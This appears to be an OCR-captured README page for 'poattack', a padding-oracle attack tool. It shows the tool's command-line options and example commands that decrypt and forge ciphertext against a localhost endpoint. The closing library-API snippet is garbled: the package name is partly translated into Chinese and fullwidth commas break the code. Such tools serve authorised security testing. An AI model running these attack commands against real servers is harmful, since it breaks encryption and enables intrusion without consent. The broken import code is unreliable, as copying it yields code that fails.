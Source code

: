 ```
  <url>                    URL to attack. Payload will be inserted at the end by default. To specify
                           a custom injection point, include {POPAYLOAD} in a header (-H),
                           request body (-d) or the URL
  <block_size>             Block size used by the encryption algorithm on the server
  <error>                  The string present in response when decryption fails on the server.
                           Specify a string present in the HTTP response body (like PaddingException)
                           or status code of the HTTP response (like 400)

Options
  -c, --concurrency        Requests to be sent concurrently                      [default: 128]
      --disable-cache      Disable network cache. Saved to                       [default: false]
                           poattack-cache.json.gz.txt by default
  -X, --method             HTTP method to use while making request               [default: GET]
  -H, --header             Headers to be sent with request.
                             -H 'Cookie: cookie1' -H 'User-Agent: Googlebot/2.1'
  -d, --data               Request body
                             JSON string: {"id": 101, "foo": "bar"}
                             URL encoded: id=101&foo=bar
                           Make sure to specify the Content-Type header.

  -e, --payload-encoding   Ciphertext payload encoding for {POPAYLOAD}           [default: hex]
                             base64          FooBar+/=
                             base64-urlsafe  FooBar-_
                             hex             deadbeef
                             hex-uppercase   DEADBEEF
                             base64(xyz)     Custom base64 ('xyz' represent characters for '+/=')

  --dont-urlencode-payload Don't URL encode {POPAYLOAD}                          [default: false]

  --start-from-1st-block   Start processing from the first block instead         [default: false]
                           of the last (only works with decrypt mode)

Examples
  $ poattack decrypt http://localhost:2020/decrypt?ciphertext=
      hex:e3e70d8599206647dbc96952aaa209d75b4e3c494842aa1aa8931f51505df2a8a184e99501914312e2c50320835404e9
      16 400
  $ poattack encrypt http://localhost:2020/decrypt?ciphertext= "foo bar 🦄" 16 400
  $ poattack encrypt http://localhost:2020/decrypt?ciphertext= hex:666f6f2062617220f09fa684 16 400
  $ poattack analyze http://localhost:2020/decrypt?ciphertext=

Aliases
  poattack
  padding-oracle-attack
```

**库 API**

const { decrypt，encrypt } = require(' padding-Oracle-攻击者')
//或
import { decrypt，encrypt } from ' padding-Oracle-攻击者'
